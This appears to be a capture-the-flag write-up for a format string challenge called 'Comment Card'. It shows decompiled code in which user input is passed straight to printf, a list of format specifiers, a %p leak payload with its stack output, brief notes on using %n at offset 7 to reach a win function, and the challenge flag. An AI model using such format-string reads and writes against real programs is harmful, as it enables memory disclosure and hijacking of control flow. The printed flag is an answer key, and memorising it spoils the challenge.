


# 『Comment Card』



# 『The challenge』



And the chall: [chall-download](./src/dis.tar.gz)

## 『Highlight vulnerability and parts of interesting』

Something interesting in here:

```asm
0040120d    int64_t feedbackKiosk()

0040122c        char var_108[0x100]
0040122c        memset(&var_108, 0, 0x100)
00401236        puts(str: "=== Dining Hall Feedback Kiosk ===")
00401240        puts(str: "Leave your comment: ")
00401259        read(fd: 0, buf: &var_108, nbytes: 0xff)
00401268        printf(format: "Thanks for your comment: ")
0040127c        printf(format: &var_108)
0040128d        return putchar(c: 0xa)
```

There are no `buffer overflow` vuln in here but only use `printf` which mean this one is format string attack. There are many technique tho but no buffer overflow, you can use of one of format string attack to get win function. Here the reference https://ir0nstone.gitbook.io/notes/binexp/stack/format-string. But first:

```
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```

you can use these one of the format in here. This one https://hacktricks.wiki/en/binary-exploitation/format-strings/index.html

So if you input `%p`, it will show up the memory result -> leaking which way to leak some libc or main in here or other function too!
use `%s` for read it and `%n` for using arbitrary write where memory you want to write it. So by using this one, you can read the memory using `%s` and jump to win.

## 『Solving Challenge』
> solve by Lylera

So by knowing what vuln is this call, i wonder how to solve it? So giving leak first using `%p`

```
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Thanks for your comment: 0x7fffffffd830.(nil).(nil).0x19.(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0xa.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).
```

and then count where you can read tho. So from this leak from `%1$p` until `%5$p` are for globals which mean you can start to `%6$p`. But you can't do at start to input at 6 so put it on 7 -> added some p32(0) four bytes -> and jump through flag. (remember, still stack alligntment)

### 『Flag』

```
wctf{c0mm3nt_hqwx3i5r9jhjik7d}
```

### 『Reference』

- https://ir0nstone.gitbook.io/notes/binexp/stack/format-string
- https://hacktricks.wiki/en/binary-exploitation/format-strings/index.html